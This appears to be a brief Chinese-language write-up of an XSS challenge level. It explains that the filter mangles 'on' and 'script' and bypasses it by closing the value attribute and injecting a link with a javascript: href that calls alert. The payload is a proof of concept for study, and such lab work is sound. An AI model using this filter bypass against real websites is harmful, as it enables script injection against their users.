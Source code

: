 ```
"> <a href=javascript:alert('xss')> <"
```

 

这题  on  script都被转换为

o_n   sc_ript   都会被过滤多一个_





所以onfocus、onclick等事件也不能用。





这里用href超链接。

先闭合前面的引号">  

最后闭合后面的引号<"



总体就是

```
value="   "> <a href=javascript:alert('xss')> <"   ">
```

